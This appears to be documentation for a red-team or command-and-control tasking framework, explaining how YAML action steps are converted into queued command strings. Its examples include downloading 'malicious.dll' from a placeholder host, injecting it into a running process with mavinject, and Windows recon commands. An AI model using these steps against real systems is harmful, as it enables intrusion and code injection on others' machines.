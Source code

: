 ## **Step Execution: How the String is Processed**
Each step undergoes transformation from **structured YAML** to **an execution-ready command string**.  

### **Example Input in YAML**
```yaml
steps:
  - action: shell
    args: ["whoami /all"]

  - action: get_file
    args: ["http://someip/malicious.dll", "C:\\malicious.dll"]

  - action: start-process
    args: ["mavinject", "<PID>", "/INJECTRUNNING", "C:\\malicious.dll"]
```

### **Processing in Python**
Each step is extracted, formatted, and converted into a command string:
```python
for step in command_steps:
    action = step.get("action")
    args = step.get("args", [])
    args_str = " ".join(args) if isinstance(args, list) else str(args)
    full_command = f"{action} {args_str}".strip()
    command_queue_list.append(full_command)
```

### **Transformation Steps**
| **Step**            | **Original (YAML)**                              | **Extracted (Python Dict)**                            | **Formatted String**                         |
|---------------------|-------------------------------------------------|------------------------------------------------------|---------------------------------------------|
| **Step 1**         | `shell ["whoami /all"]`                          | `{"action": "shell", "args": ["whoami /all"]}`      | `"shell whoami /all"`                       |
| **Step 2**         | `get_file ["http://someip/malicious.dll", "C:\\malicious.dll"]` | `{"action": "get_file", "args": ["http://someip/malicious.dll", "C:\\malicious.dll"]}` | `"get_file http://someip/malicious.dll C:\\malicious.dll"` |
| **Step 3**         | `start-process ["mavinject", "<PID>", "/INJECTRUNNING", "C:\\malicious.dll"]` | `{"action": "start-process", "args": ["mavinject", "<PID>", "/INJECTRUNNING", "C:\\malicious.dll"]}` | `"start-process mavinject <PID> /INJECTRUNNING C:\\malicious.dll"` |

---

## **Examples**  

### **1. Shell Command Execution**  
Used for running system commands directly.  

#### **Example: Running Recon Commands**  
```yaml
commands:
  - name: recon
    description: "Gather system information"
    steps:
      - action: shell
        args: ["whoami /all"]

      - action: shell
        args: ["ipconfig /all"]

      - action: shell
        args: ["netstat -ano"]
```
🔹 **Execution Output:**  
```
shell whoami /all
```